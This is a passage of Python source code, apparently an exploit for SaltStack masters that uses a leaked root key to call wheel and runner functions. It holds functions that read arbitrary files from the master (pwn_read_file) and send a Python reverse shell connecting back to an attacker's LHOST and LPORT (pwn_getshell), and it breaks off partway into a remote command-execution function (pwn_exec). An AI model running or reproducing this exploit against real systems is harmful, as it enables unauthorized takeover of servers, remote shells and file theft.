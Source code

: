 ```python
        print("\033[1;32m未知错误\033[0m")
        raise
    else:
        pass
    finally:
        if rets:
            root_key = rets[2]['root']
            print("\033[1;31m存在漏洞\033[0m")
            return root_key

    return None


def pwn_read_file(channel, root_key, path, master_ip):
    # print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])



def pwn_getshell(channel, root_key, LHOST, LPORT):
    msg = {"key": root_key,
           "cmd": "runner",
           'fun': 'salt.cmd',
           "kwarg": {
               "fun": "cmd.exec_code",
               "lang": "python3",
               "code": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{}\",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);".format(
                   LHOST, LPORT)
           },
           'jid': '20200504042611133934',
           'user': 'sudo_user',
           '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = channel.send(msg, timeout=3)
        print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
        return True
    except:
        print("something failed")
        return False


def pwn_exec(channel, root_key, exec_cmd, master_or_minions):
    if master_or_minions == "master":
        msg = {"key": root_key,
               "cmd": "runner",
               'fun': 'salt.cmd',
               "kwarg": {
                   "fun": "cmd.exec_code",
                   "lang": "python3",
```